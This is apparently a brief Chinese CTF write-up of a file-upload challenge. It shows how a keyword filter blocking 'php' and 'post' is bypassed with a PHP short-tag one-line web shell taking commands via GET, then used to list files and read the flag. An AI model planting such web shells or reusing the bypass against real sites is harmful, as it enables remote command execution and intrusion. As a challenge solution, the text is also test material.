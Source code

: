 ![image-20240316145955349](https://pic.imgdb.cn/item/65f544f09f345e8d03f0afaf.png)

简单的文件上传

```php
$allowedExts = array("gif", "jpeg", "jpg", "png", "php");
    if (strpos($fileContent, "php") !== false || strpos($fileContent, "post") !== false) {
        echo "<div style='background-color: #ffcccc; padding: 10px; border: 1px solid #ff0000;'>上传文件内容包含非法关键字</div>";
    }
```

挑了重点代码

允许图片和php文件上传

但是检测了文件内容里面不能包含 php 和 post关键字

避免php可以使用短标签

避免post可以使用get

于是一句话木马这样写：

```php
<?= eval($_GET['123']);?>
```

上传成功

![image-20240316150458068](https://pic.imgdb.cn/item/65f544fb9f345e8d03f0ef5e.png)

执行命令

```
http://xxx/upload/cmd.php?123=system('ls');
http://xxx/upload/cmd.php?123=system('cat /flag');
```

得到flag